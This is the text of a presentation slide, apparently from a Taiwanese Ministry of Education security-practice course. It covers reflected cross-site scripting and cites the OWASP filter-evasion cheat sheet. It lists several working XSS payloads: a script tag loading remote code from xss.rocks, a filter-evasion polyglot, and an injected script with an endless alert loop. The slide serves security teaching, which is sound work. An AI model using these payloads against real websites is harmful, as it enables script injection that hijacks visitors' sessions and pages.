

Reflected Cross Site Scripting (XSS)
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

各種奇妙攻擊Playload
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
javascript:/*--> </title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
< “></iframe><script>alert(123)</script> <body onLoad=”while(true) alert(‘XSS’);”> ‘”></title>
教育部
新型態資安實務課程計畫